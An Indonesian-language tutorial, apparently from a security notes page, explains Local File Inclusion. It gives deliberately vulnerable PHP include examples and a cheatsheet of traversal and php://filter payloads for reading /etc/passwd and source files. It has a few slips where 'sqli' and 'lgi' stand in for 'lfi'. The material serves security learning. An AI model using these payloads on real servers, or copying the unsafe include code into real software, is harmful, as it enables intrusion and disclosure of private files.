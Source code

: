# **Local File Inclusion**

[Local File Inclusion](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)

## **Deskripsi Singkat**

_Local File Inclusion_ (selanjutnya akan ditulis dengan _lfi_) merupakan kerentanan yang memungkinkan _attacker_ dapat melakukan _includin_ sebuah file dari dalam server itu sendiri atau hanya sekedar membaca local file dari server itu sendiri. Melalui celah ini, biasanya _attacker_ dapat melakukan controlling parameter yang melakukan _including_ atau _reading_ di dalam server. Dampak umum yang ditimbulkan lewat serangan _sqli_ adalah :

   * Membaca source code dari local server.
   * Membaca file configuration server.
   * Melakukan Remote Code Execution (RCE) jika beruntung.
   
   

## **Penyebab terjadinya Local File Inclusion**


Penyebab terjadinya serangan _lgi_ adalah dikarenakan inputan yang dipassing ke sebuah _function_ yang melakukan _includin_ ataupun _reading_ file. Berikut ini contoh script di `PHP` yang memiliki celah _lfi_.


Contoh 1: 

```php
<?php
include $_GET['page'];
```

Contoh 2:

```php
<?php
include $_GET['page'].".php";
```

Dua contoh di atas di mana _attacker_ dapat melakukan kontrol terhadap nama file yang akan di _include_ oleh script di atas. Setiap inputan yang masuk ke _include_ function yang dapat di kontol oleh _user_ proses inilah yang dinamakan _Local File Inclusion_ .

## **_Cheatsheet_**

Basic 

```txt 
Basic validation read /etc/passwd => ../../../../../../../../../../../../etc/passwd
Read any name file name.php file => name.php
```

Bypassing for example script 2

```txt
Read any name file name.php to => name
```

Using Wrapper to read file

```php
php://filter/read=string.rot13/resource=index.php
php://filter/convert.base64-encode/resource=index.php
php://filter/convert.base64-encode/resource=index
php://filter/convert.base64-encode/resource=../../../../../../../../../../../../etc/passwd
pHp://FilTer/convert.base64-encode/resource=index.php
pHp://FilTer/convert.base64-encode/resource=index
```
